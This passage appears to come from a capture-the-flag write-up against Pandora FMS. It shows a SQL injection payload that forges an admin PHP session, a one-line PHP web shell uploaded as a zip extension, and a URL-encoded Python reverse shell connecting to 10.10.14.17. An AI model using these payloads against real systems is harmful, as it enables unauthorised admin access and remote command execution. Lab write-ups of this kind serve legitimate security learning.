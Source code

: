 Checking the columns of the table that what values it expects , we can look in the `pandoradb.sql` file that `tsession_php` has three columns 

<img src="https://i.imgur.com/kqaOfig.png"/>

Our sqli payload would look like this 

```sql
union+select+'randomshit_token','1638796349','id_usuario|s:5:"admin";'+--+
```

it's using select statement to allow a phpsesssion to be created against the admin user with the token we provided ,it could be anything 

<img src="https://i.imgur.com/6HZ29jk.png"/>

Running this it doesn't show any errors which means it got executed correctly and now replacing the PHPSESSION with our token 

<img src="https://i.imgur.com/pQGOky6.png"/>

We are now logged in as admin user now all that is left is to use the rce exploit, I tried the exploit from exploit-db but it didn't worked 


Then saw a php file upload exploit from a youtube video 

<img src="https://i.imgur.com/gViN9jj.png"/>

<img src="https://i.imgur.com/tj7cght.png"/>

So we can make a php file which will allow us to execute comamnds and make a zip archive of that php as we need to upload that as an extension 

```php
<?php system($_GET['cmd']); ?>
```

<img src="https://i.imgur.com/H1lhKet.png"/>

Then upload the archive file having the php file

<img src="https://i.imgur.com/JKzbAY3.png"/>

<img src="https://i.imgur.com/20h7CaH.png"/>

After uploading the file , execute the file through `http://127.0.0.1:2222/pandora_console/extensions/shell.php`

<img src="https://i.imgur.com/OluufnP.png"/>

<img src="https://i.imgur.com/Jcs8MbI.png"/>

We can get a reverse shell through `python3`

```python
python3%20-c%20%27import%20socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.17%22,3333));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(%22/bin/sh%22)%27
```
